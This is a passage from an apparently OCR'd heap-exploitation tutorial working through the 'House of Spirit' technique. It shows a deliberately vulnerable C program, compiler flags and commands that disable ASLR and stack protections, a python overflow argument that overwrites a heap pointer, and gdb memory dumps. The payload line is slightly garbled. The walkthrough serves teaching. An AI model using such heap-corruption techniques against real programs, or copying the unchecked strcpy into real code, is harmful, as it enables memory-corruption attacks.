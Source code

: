 ``` c

  ptr1 = (char *) malloc(256);
  printf("\nPTR1 = [ %p ]", ptr1);
  strcpy(name, str1);
  printf("\nPTR1 = [ %p ]\n", ptr1);

  free(ptr1);

  ptr2 = (char *) malloc(40);

  snprintf(ptr2, 40-1, "%s is %d years old", name, local_age);
  printf("\n%s\n", ptr2);
}

int main(int argc, char *argv[])
{
  int pad[10] = {0, 0, 0, 0, 0, 0, 0, 10, 0, 0};

  if (argc == 3)
    fvuln(argv[1], atoi(argv[2]));

  return 0;
}
```
It’s clear that the strcpy on name using a user-defined input allows to overwrite the value of ptr1. Then, at the end, snprintf allows the attacker to write into ptr2 and to complete the exploit. About the modifications I did:   

* I don’t know why blackngel put a static attribute to both ptr1 and name variables. Anyway, I removed it, as I was not comfortable into having these variables in the .bss area.
* The pad into the main function is required for two reasons:
	- Allow a correct 8-bit alignment for the fake chunk ptr1
	- Have a valid size value for the next chunk check in the free (I actually tried with a smaller pad, but ptr1‘s value was ending with \x20 on my machine and I was unable to pass this value in the shellcode)

In order to have everything working, I had to:  

* Disable ASLR with the usual echo command
* Boot the kernel with the noexec=off parameter
* Disable GCC’s stack protections

About the third point, it all reduces to:

 `gcc hos.c -m32 -fno-stack-protector -mpreferred-stack-boundary=2 -mno-accumulate-outgoing-args -z execstack -o hos`  
So, the first thing to do is to overwrite ptr1‘s value: I will use, for the age parameter, the same value blackngel used in the original paper (48). Now we need a good value for ptr1.    
```
 $ ./hos `python -c 'import sys; sys.stdout.write("A2 + "B" * 4 + "C" * 4)'` 48

PTR1 = [ 0x804b008 ]
PTR1 = [ 0x43434343 ]
Segmentation fault
```
Right after the strcpy the stack looks like this:  
```
 (gdb) x/40x 0xffffcef0
0xffffcef0:     0x00000000      0xffffcf60      0x08048625      0x41414141
0xffffcf00:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffcf10:     0x41414141      0x41414141      0x41414141      0x42424242
0xffffcf20:     0x43434343      0x00000000      0xffffcf68      0x080486c0
0xffffcf30:     0xffffd19e      0x00000030      0x00000000      0x00000000
0xffffcf40:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffcf50:     0x00000000      0x0000000a      0x00000000      0x00000000
0xffffcf60:     0xf7e5d000      0x00000000      0x00000000      0xf7cdd943
```